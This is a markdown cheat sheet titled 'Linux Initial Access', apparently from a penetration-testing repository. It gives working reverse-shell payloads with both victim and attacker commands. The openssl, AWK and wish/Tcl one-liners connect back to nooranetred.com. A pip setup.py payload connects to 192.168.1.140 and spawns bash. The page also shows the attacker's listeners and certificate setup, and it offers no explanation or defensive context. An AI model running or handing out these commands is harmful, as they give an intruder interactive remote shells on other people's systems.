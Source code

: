 # Linux Initial Access

***

## openssl Reverse shell

#### Attacker

* ##### generate Certificate
  
  ```bash
  openssl req -x509 -newkey rsa:4096 -keyout nss.pem -out nss.pem -days 365 -nodes
  ```

* #### Listen
  
  ```bash
  openssl s_server -quiet -key nss.pem -cert nss.pem -port 12345
  ```
  
  #### Victim

* openssl.sh
  
  ```bash
  RHOST=nooranetred.com
  RPORT=443
  mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  ```

## AWK Reverse shell

#### victim

awk-rshell.ps

```bash
RHOST=nooranetred.com
RPORT=443
awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

#### Attacker

```bash
nc -l -p 443
```

## Pip shell access

pip.sh

```bash
export RHOST=192.168.1.140
export RPORT=443
TF=$(mktemp -d)
echo 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")' > $TF/setup.py
pip install $TF
```

## Wish  Reverse Shell

wish.sh

```bash
export RHOST=nooranetred.com
export RPORT=443
echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
```